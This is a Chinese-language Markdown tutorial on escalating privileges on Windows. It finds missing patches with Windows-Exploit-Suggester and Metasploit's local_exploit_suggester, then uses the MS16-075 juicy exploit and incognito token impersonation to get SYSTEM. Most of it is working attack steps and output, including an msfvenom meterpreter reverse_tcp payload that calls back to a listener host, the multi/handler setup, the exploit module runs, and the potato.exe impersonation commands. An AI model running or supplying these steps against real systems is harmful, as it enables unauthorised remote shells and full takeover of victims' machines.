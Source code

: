 ## 1、 windows 补丁审计工具使用

在终端下可以使用命令systeminfo 来查看系统的一些补丁信息 

导出目标系统信息：http://www.demo1.com/asp.aspx 

```bash
systeminfo >C:\inetpub\wwwroot\www.demo1.com\systeminfo.txt
```

![image-20210501233832929](C:/Users/wzxmt/AppData/Roaming/Typora/typora-user-images/image-20210501233832929.png)

补丁检测：[Windows-Exploit-Suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester)

```bash
git clone https://github.com/GDSSecurity/Windows-Exploit-Suggester.git
```

安装pip

```bash
#pip3 
curl -s https://bootstrap.pypa.io/get-pip.py | python3
#pip2
curl https://bootstrap.pypa.io/pip/2.7/get-pip.py -o get-pip.py | python
#检测版本
pip -V 
```

首先安装xlrd1.20库

```bash
pip install xlrd==1.2.0
```

更新漏洞补丁库

```bash
./windows-exploit-suggester.py --update
```

生成2021-05-01-mssb.xls

![image-20210501233522123](../../acess/image-20210501233522123.png)  

查找可以利用的补丁

```bash
./windows-exploit-suggester.py --database 2021-05-01-mssb.xls --systeminfo systeminfo.txt >exp.txt 
```

里面有详细的说明可以漏洞利用的exp

 查找指定系统的可以用的漏洞

```bash
./windows-exploit-suggester.py --database 2021-05-01-mssb.xls --ostext 'windows server 2008 r2'
```

![image-20210502004359471](../../acess/image-20210502004359471.png) 

显示可利用的本地提权的条目

```bash
./windows-exploit-suggester.py  --audit -l --database 2021-05-01-mssb.xls --systeminfo systeminfo.txt >win2008-day.txt
```

如果补丁没有打上的情况下，就会显示可以利用的ms编号 exp的地址和描述

提权exp windows-kernel-exploits

https://github.com/SecWiki/windows-kernel-exploits

![img](../../acess/sdkfhjas) 

## 2、msf结合windows-exploit-suggester使用

生成攻击载核

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.31.150  lport=12345 -f exe >/var/www/html/s.exe
```

监听

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.31.150
set lport 12345
exploit
```

上传文件![image-20210502005423018](../../acess/image-20210502005423018.png)

得到一个低权限的shell

![image-20210502010135671](../../acess/image-20210502010135671.png)

background 返回 模块选择的命令 把session 放到后台

使用suggester模块 

```bash
use post/multi/recon/local_exploit_suggester
show options
set SESSION 1
exploit
```

![image-20210502012632086](../../acess/image-20210502012632086.png) 

这里就是列出没有修补的漏洞

[*] 192.168.31.105 - Collecting local exploits for x86/windows...
[\*] 192.168.31.105 - 29 exploit checks are being tried...
[+] 192.168.31.105 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 192.168.31.105 - exploit/windows/local/ikeext_service: The target appears to be vulnerable.
[+] 192.168.31.105 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 192.168.31.105 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 192.168.31.105 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 192.168.31.105 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 192.168.31.105 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 192.168.31.105 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.
[+] 192.168.31.105 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 192.168.31.105 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
[+] 192.168.31.105 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.

使用模块windows/local/ms16_075_reflection_juicy 进行

```bash
use windows/local/ms16_075_reflection_juicy
show options //查看参数
set SESSION 1
exploit
```

![image-20210502013617798](../../acess/image-20210502013617798.png) 

得到系统权限。

## 3、使用MS16-075提权

选择第一个session ：sessions 1

```bash
use incognito
list_tokens -u    //列出tokens
execute -cH -f C:/inetpub/wwwroot/www.demo1.com/potato.exe   //执行exp
list_tokens -u
impersonate_token "NT AUTHORITY\\SYSTEM"   //提权
```

![image-20210502020852541](../../acess/image-20210502020852541.png)

这个要多试用多次 方可成功